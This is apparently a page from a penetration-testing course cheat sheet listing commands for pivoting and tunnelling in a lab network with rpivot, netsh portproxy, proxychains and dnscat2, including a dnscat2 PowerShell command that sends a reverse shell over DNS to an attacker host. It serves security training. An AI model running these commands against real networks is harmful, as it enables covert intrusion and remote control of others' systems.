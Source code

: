| `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0`                                                                                                                                     | Used to run the rpivot server (`server.py`) on proxy port `9050`, server port `9999` and listening on any IP address (`0.0.0.0`).                                                                                                                                       |
| `scp -r rpivot ubuntu@<IPaddressOfTarget>`                                                                                                                                                                         | Uses secure copy protocol to transfer an entire directory and all of its contents to a specified target.                                                                                                                                                                |
| `python2.7 client.py --server-ip 10.10.14.18 --server-port 9999`                                                                                                                                                   | Used to run the rpivot client (`client.py`) to connect to the specified rpivot server on the appropriate port.                                                                                                                                                          |
| `proxychains firefox-esr <IPaddressofTargetWebServer>:80`                                                                                                                                                          | Opens firefox with Proxychains and sends the web request through a SOCKS proxy server to the specified destination web server.                                                                                                                                          |
| `python client.py --server-ip <IPaddressofTargetWebServer> --server-port 8080 --ntlm-proxy-ip IPaddressofProxy> --ntlm-proxy-port 8081 --domain <nameofWindowsDomain> --username <username> --password <password>` | Use to run the rpivot client to connect to a web server that is using HTTP-Proxy with NTLM authentication.                                                                                                                                                              |
| `netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.42.198 connectport=3389 connectaddress=172.16.5.25`                                                                                 | Windows-based command that uses `netsh.exe` to configure a portproxy rule called `v4tov4` that listens on port 8080 and forwards connections to the destination 172.16.5.25 on port 3389.                                                                               |
| `netsh.exe interface portproxy show v4tov4`                                                                                                                                                                        | Windows-based command used to view the configurations of a portproxy rule called v4tov4.                                                                                                                                                                                |
| `git clone https://github.com/iagox86/dnscat2.git`                                                                                                                                                                 | Clones the `dnscat2` project GitHub repository.                                                                                                                                                                                                                         |
| `sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache`                                                                                                                        | Used to start the dnscat2.rb server running on the specified IP address, port (`53`) & using the domain `inlanefreight.local` with the no-cache option enabled.                                                                                                         |
| `git clone https://github.com/lukebaggett/dnscat2-powershell.git`                                                                                                                                                  | Clones the dnscat2-powershell project Github repository.                                                                                                                                                                                                                |
| `Import-Module dnscat2.ps1`                                                                                                                                                                                        | PowerShell command used to import the dnscat2.ps1 tool.                                                                                                                                                                                                                 |
| `Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd`                                                                                     | PowerShell command used to connect to a specified dnscat2 server using a IP address, domain name and preshared secret. The client will send back a shell connection to the server (`-Exec cmd`).                                                                        |